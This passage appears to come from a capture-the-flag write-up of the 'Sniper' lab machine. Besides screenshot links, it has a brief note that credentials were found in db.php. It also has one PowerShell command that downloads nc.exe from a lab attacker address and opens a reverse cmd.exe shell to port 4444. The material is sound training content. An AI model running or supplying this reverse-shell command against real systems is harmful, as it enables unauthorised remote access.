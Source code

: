 ![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2013.png)

**powershell.exe -command Invoke-WebRequest -Uri '[http://10.10.14.34/nc.exe](http://10.10.14.34/nc.exe)' -OutFile 'C:\Windows\System32\spool\drivers\color\nc.exe'; cmd.exe /c C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.34 4444 -e cmd.exe**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2014.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2014.png)

---

## ⇒ *Privilege Escalation to User*

→ Looking back we saw db.php on the /user page. Going to inetpub/wwwroot/user/db.php we find credentials :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2015.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sniper%20Box%206cf4da7753cb4488ad5492ba2cc6dac2/Untitled%2015.png)
